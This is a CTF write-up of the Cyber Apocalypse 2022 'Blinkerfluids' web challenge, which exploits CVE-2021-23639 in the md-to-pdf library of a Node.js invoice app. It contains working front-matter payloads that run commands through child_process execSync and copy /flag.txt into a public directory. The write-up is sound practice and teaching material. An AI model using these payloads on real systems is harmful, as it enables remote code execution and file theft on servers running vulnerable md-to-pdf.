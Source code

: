 .. title: Cyber Apocalypse 2022 - Blinkerfluids
.. slug: cyber-apocalypse-2022-blinkerfluids
.. date: 2022-05-30 11:33:08 UTC-04:00
.. tags:
.. category: hacking, ctf writeup
.. link:
.. description:
.. type: text

This was the first web challenge I solved in the Cyber Apocalypse 2022 CTF.
This challenge had a downloadable portion with a fake flag as well as a web instance with an actual flag.
Since the CTF has been over for a while and I didn't capture any of the actual challenge, I am recreating the steps I took here using the docker container.

.. TEASER_END

Recon
======

First, I took a look at the challenge in a browser.

.. image:: /images/blinkerfluids/initial_1.png

Invoices can be viewed and created.

.. image:: /images/blinkerfluids/invoice_create_1.png

My first thought was that there might be server side template injection (SSTI).

.. image:: /images/blinkerfluids/invoice_ssti_1.png
.. image:: /images/blinkerfluids/invoice_ssti_2.png

Unfortunately, that was not the case.

Analyze the source
==================

For web challenges with downloadable docker instances, the first thing is to figure out what the back end is.
Reading the source files here, this is a node.js app.
For node apps, the best place to start looking is in the package.json.
I want to see if there are any out of date or known vulnerable plugins.
This app is using the following:

"express": "4.17.3",
"md-to-pdf": "4.1.0",
"nunjucks": "3.2.3",
"sqlite-async": "1.1.3",
"uuid": "8.3.2"

``md-to-pdf`` is the first one that I look into more, because I know that there is an RCE vulnerability in certain versions.
This specific vulnerability it tracked as `CVE-2021-23639 <https://nvd.nist.gov/vuln/detail/CVE-2021-23639>`_.
A proof of concept is available at `Synk <https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880>`_

The poc was modified to output to a directory that is easy to access ``---jsn((require("child_process")).execSync("id > /app/static/RCE.txt"))n---RCE``

Unfortunately, all I got was "something went wrong" and some error messages in the docker log.
From previous experience, I knew that the ``n`` in that line might need to be ``\n``, so I tried that as well.
That didn't work either.
Then I decided that it might literally need to be a newline in the textbox.

::

  ---js
  ((require("child_process")).execSync("id > /app/static/RCE.txt"))
  ---

and that worked.

.. image:: /images/blinkerfluids/poc_result.png

Now, just change the exploit to copy the flag to somewhere we can read.

::

  ---js
  ((require("child_process")).execSync("cp /flag.txt /app/static/flag.txt"))
  ---

.. image:: /images/blinkerfluids/flag.png

There's the flag.
